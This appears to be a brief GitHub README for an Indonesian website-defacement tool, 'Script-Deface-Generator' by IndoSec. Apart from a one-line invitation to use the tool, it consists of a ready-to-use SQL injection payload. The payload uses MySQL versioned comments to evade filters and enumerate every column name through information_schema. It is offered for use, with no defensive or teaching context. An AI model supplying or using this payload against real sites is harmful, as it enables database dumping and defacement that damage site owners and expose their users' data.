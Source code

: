 # Script-Deface-Generator

Tools ini gw bikin open source, jadi digunakan baik2 ok ^_^

{ IndoSec }
(/*!50000select*/+concat+(@:=0,(/*!50000select*/+count(*)%20from+/*!50000information_schema.columns*/+WHERE(TABLE_SCHEMA!=0x696e666f726d6174696f6e5f736368656d61)AND@:=concat+(@,0x3c62723e,/*!50000column_name*/)),@))
